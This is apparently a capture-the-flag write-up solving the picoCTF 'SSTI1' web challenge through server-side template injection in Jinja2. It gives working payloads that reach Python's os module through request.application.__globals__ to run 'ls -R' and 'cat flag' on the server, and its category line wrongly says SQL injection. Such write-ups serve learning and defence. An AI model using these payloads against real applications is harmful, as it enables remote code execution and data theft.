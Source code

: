 # SSTI1 - PicoCTF
## Challenge Description

* **Category**: SQL Injection, Web Exploitation
* **Description**: I made a cool website where you can announce whatever you want! Try it out!
I heard templating is a cool and modular way to build web apps! Check out my website here!
* **Link Resource**: `https://play.picoctf.org/practice/challenge/492?page=1&search=ssti1`

## Solution

### Step 1 : Detect the Engine

* To detect the engine, we can try to input anything to the given input cell, here I am using the inout of `{{8 * 9}}`
* The output is `72`, which is the direct calculation of the given input. This also indicating that the engine is Jinja2, templating engine for Python programming.

[engine](../../assets/SSTI1-1.png)

### Step 2 : List the directories

* We will try to list all the available directories using the given payload

```
{{request.application.__globals__.__builtins__.__import__('os').popen('ls -R').read()}}
```

* We can see a "flag" in the output shown

[hintssti1](../../assets/SSTI1-2.png)

### Step 3 : Modify the previous payload

* Use the below payload to show the flag

```
{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag').read()}}
```

## Result

We are able to acquire the flag.

[ssti1flag](../../assets/SSTI1-3.png)

## Explanation

The vulnerability exploited here is **Server-Side Template Injection (SSTI)** in a web application using the Jinja2 templating engine. By leveraging Jinja2’s access to Python built-ins, we escalated the injection to execute system commands (`os.popen`), which allowed us to list directories and eventually read the `flag` file from the server. This demonstrates how SSTI can lead to full remote code execution and sensitive data disclosure when input is not properly validated or sandboxed.
